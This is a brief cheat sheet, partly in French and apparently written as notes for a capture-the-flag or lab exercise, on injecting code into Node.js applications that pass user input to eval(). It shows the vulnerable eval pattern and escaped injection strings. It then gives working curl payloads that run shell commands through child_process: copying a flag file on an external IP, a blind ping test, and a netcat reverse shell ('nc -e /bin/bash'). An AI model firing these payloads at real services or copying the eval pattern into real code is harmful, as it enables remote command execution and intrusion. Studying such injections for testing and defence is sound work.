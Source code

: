 # Injection NodeJS

tester avec: ";", "+", and ".".
 
## basics:

### code 

```javascript
 eval("var i = '" + input + "'")
```
### injection:

```javascript
 '; console.log('injection'); '
```
### execurtera: 

```javascript
 var i = ''; console.log('injection'); ''
```

## +complexe:

### Code:

```javascript
eval('const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("' + json[key] + '").digest("hex");');
```

### échapper les chars:

```bash
└──╼ $jq -aR .
"); console.log("successful injection"); //
"\"); console.log(\"successful injection\"); //"
```

```bash
└──╼ $curl -X POST http://127.0.0.1:21440/admin -d '{"key":"\"); console.log(\"successful injection\"); //"}'
successful injection
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""); console.log("successful injection"); //").digest("hex")

curl -X POST http://167.99.88.216:32153/admin -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"cat flag.txt > denied.html\"); //"}'
```

### Blind:

```bash
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"ping -c 3 127.0.0.1\"); //"}'
sudo tcpdump -i lo icmp
```

### ReverseShell

```bash
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"nc -e /bin/bash 127.0.0.1 1234\"); //"}'
```